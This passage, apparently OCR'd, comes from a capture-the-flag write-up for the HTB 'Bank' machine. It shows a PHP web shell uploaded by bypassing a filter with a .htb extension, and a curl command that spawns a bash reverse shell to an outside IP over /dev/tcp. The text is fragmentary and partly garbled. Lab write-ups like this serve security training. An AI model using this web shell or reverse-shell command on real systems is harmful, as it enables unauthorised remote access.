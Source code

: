 ```bash
Balance: 8842803 .
===UserAccount===
```
That leaves a plaintext email and password.

**Login**

Now I can login as chris:

**Exploitation**
support.php presents a form and open tickets:
Upload Filter Enumeration

```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

I’ll want the extension to be .php so that it’ll be executed by the server. However, when I try to submit the ticket, it is rejected:
My first test was to change the extension to .png and resend. Unfortunately, success:

```html
<!-- [DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG] --
```

I changed the upload to cmd.htb, and it uploaded.
To test, I ran the id command, and it worked:
```bash
curl http://bank.htb/uploads/cmd.htb?cmd=id
```
```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now to get a shell, with nc listening on 443, I’ll issue the following command to the webshell:

```bash
curl http://bank.htb/uploads/cmd.htb?cmd=bash -c "bash -i>%26 /dev/tcp/10.10.14.99/443 0>%261"
```

The connection comes back with a shell:
```bash
nc -lnvp 443
```
```bash
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.14.99.
Ncat: Connection from 10.10.14.99:53542.
bash: cannot set terminal process group (1076): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/var/www/bank/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
We’ll need to escalate privileges
